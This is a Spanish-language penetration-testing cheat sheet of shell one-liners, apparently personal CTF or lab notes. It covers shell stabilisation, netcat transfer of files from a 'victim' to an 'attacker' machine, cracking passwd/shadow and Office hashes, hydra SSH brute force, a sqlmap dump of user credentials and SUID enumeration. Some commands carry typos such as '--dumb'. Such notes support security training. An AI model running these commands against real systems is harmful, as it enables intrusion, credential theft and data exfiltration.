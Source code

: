  ### Tratamiento de la TTY
#tecnicas
```python
	script /dev/null -c bash # Lanza pseudoconsola
	
	[ctrl+z] # Suspende la shell actual
	
	stty raw -echo; fg # Recupera la shell suspendida
	
	reset xterm # Reinicia la configuración de la terminal xterm # Especifica el tipo de terminal
	
	export TERM=xterm # Asigna xterm a la variable TERM
	
	export SHELL=bash # Asigna bash a la variable SHELL
	
	stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>
	
	Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a
 ```
 
### TTY Shell con Python

```python
	python -c 'import pty; pty.spawn("/bin/bash")'
```

### Copiar al clipboard

```python
	cat archivo.txt | xclip -sel clip
```
### Descompresión

```python
#.tar
	
	tar -xf archive.tar.gz
	
#.gz
	
	gzip -d file.gz
	
#.zip
	
	unzip file.zip
```
### Comparación de archivos

```python
	diff -c scan-a.txt scan-b.txt
	
	comm scan-a.txt scan-b.txt
```
### Transferencia de archivos

```python 
#HTTP
	
#Servidor
	
	python3 -m http.server
	
	python -m SimpleHTTPServer

#Cliente
	
	certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt
	
	wget http://<SERVER_IP>/file.txt
```
### FTP
```python
#Servidor
	
	python3 -m pyftpdlib
	
#Cliente
	
	ftp <SERVER_IP>
```
### Netcat
```python

#Servidor

	nc 10.10.14.2 4242 < file

#Cliente

	nc -lvnp 4242 > file
----------------------------------------------------------------------------------------------------------------------------------------------------------
	# maquina atacante
	nc -lvnp "Port" > "archivo"
----------------------------------------------------------------------------------------------------------------------------------------------------------
	# maquina victima
	nc "IP" "Port" < "archivo"

```
### ssh

```python
scp -r ''USER@IP:/ruta/* . * ruta donde queremos copiar(.)''
```
---

### información de procesos

```python
	ps -faux
```
### Sniffing

```python
	tcpdump -i tun0 icmp -n
 
```
### Cracking

```python
	john --wordlist=/usr/share/wordlists/rockyou.txt hash
	
	hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt
```

### Cracking de contraseñas con password y shadow

```python 
	unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>
	
	john --wordlist=<Ruta_Diccionario> <Archivo_hash>
```
### Cracking de documentos encriptados de Office

```python 
	office2john.py <Ruta_Documento> > <Archivo_hash>
	
	john --wordlist=<Ruta_Diccionario> <Archivo_hash>
``` 
### Extraer información de imágenes

```python
	steghide --extract -sf archivo.png/jpg
```
### Búsqueda de exploits

```python
	searchsploit <SOFTWARE>
	
	searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit
	
	searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```
### Buscador de archivos

```python
	find / -iname nombre_archivo
```

### Permisos SUID

```python
	find / -perm -4000 -ls 2>/dev/null
```
### Fuerza bruta con hydra para ssh

```python
	hydra 127.0.0.1 ssh -s 22 -L users -P worstpasswords.txt -f -vV 
```

### Cambio de usuario sobre archivos 

```python
	sudo chown root:root nombre_del_archivo
```

### sqlmap

```python
	sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users -C usarname,passwoed --dumb
```

### numero de caracteres

```python
echo -n "caracteres" | wc -c
```

### Capabilitis 

```python
	getcap -r / 2>/dev/null
```

### Standard PAHT

```python
	export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

### Integridad del hash de un binario compartido
```python
	md5sum Binario
```

### Listar conexiones de red
```python
lsof -i # lsof -i:port
```


